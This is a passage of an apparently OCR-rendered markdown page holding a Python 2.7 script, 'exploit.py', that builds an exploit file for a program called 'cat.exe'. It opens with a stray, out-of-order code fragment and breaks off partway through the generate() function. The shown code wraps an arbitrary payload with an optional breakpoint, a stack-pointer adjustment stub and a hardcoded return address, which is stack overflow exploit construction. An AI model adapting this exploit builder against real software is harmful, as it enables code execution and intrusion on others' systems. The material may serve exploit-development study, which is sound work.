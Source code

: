 ```python

args.payload.close()
args.exploit.close()

```

---

## `exploit.py`

___(python 2.7)___

> ***This is the final exploit generation script for `cat.exe`.***

### .. Code for `exploit.py`

```python

def main():
	import argparse
	import re
	
	parser = argparse.ArgumentParser(description='Exploit cat.')
	parser.add_argument('payload', type=argparse.FileType('r'), help="The file containing the payload")
	parser.add_argument('--exploit', type=argparse.FileType('wb'), default="exploit.dat", help="The output file.")
	parser.add_argument('--breakpoint', action='store_true', help="Add a breakpoint (INT 3) before payload.")
	parser.add_argument('--silent', action='store_true', help='No other output.')
	args = parser.parse_args()

	if not args.silent:
		print("\n] Exploit for cat.exe...\n")
		print("] Payload file: " + re.search("'(.*)',", str(args.payload)).group(1))
		print("] Exploit file: " + re.search("'(.*)',", str(args.exploit)).group(1))

	payload = args.payload.read(0x1000)
	exploit = generate(payload, vars(args))
	args.exploit.write(exploit)
	
def generate(payload, args={}):
	'''
	Generates an exploit for cat.exe
	
	Arguments
	  payload: bytearray or hex string containing the payload.
	
	Returns
	  An exploit for cat.exe
	  
	'''
	from binascii import unhexlify
	from struct import pack
	
	silent = args["silent"] if "silent" in args else True
	breakpoint = args["breakpoint"] if "breakpoint" in args else False
	
	if type(payload) is str: payload = unhexlify(payload)

	# breakpoint and modify ESP 
	stub = (b"\xCC" if breakpoint else b"") + b"\x81\xC4\xEC\xFB\xFF\xFF"
	
	address = 0x19FA54
```